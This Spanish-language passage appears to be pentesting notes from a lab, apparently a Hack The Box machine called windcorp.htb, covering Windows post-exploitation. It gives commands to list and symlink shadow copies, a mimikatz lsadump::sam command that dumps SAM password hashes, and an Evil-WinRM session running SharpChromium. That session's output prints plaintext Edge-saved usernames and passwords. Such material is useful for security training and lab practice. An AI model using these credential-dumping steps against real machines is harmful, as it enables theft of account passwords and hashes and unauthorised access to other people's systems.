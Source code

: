 ```powershell
cd HKLM:SYSTEM\CurrentControlSet\Services 
dir
```

Y ahora puedes filtrar por lo que te interese :D
## Shadow copies

Para listar las shadow copies:

```powershell
vssadmin list shadow
```

Creamos link simbólico:

```powershell
cmd /c mklink /d C:\VSS \\?\path\to\shadow\copy\
```

Y con mimikatz dumpeamos la sam de la copia:

```powershell
lsadump::sam /system:C:\VSS\Windows\System32\config\SYSTEM /sam:C:\VSS\Windows\System32\config\SAM
```

## Edge Files

La gente también suele almacenar cosas como credenciales en sus navegadores, por eso es importante mirar la ruta `C:\users\bob.wood\AppData\local\Microsoft\Edge\User Data\Default\` con los archivos `Local State` y `Login Data`. Podemos automatizar esto con la herrameinta [SharpChromium](https://github.com/djhohnstein/SharpChromium) de SharpCollection:

```powershell
*Evil-WinRM* PS C:\Windows\Debug\wia> .\scium.exe logins
[*] Beginning Edge extraction.

--- Chromium Credential (User: Bob.Wood) ---
URL      : http://somewhere.com/action_page.php
Username : bob.wood@windcorp.htb
Password : SemTro32756Gff

--- Chromium Credential (User: Bob.Wood) ---
URL      : http://google.com/action_page.php
Username : bob.wood@windcorp.htb
Password : SomeSecurePasswordIGuess!09

--- Chromium Credential (User: Bob.Wood) ---
URL      : http://webmail.windcorp.com/action_page.php
Username : bob.woodADM@windcorp.com
Password : smeT-Worg-wer-m024

[*] Finished Edge extraction.

[*] Done.
*Evil-WinRM* PS C:\Windows\Debug\wia> 
```

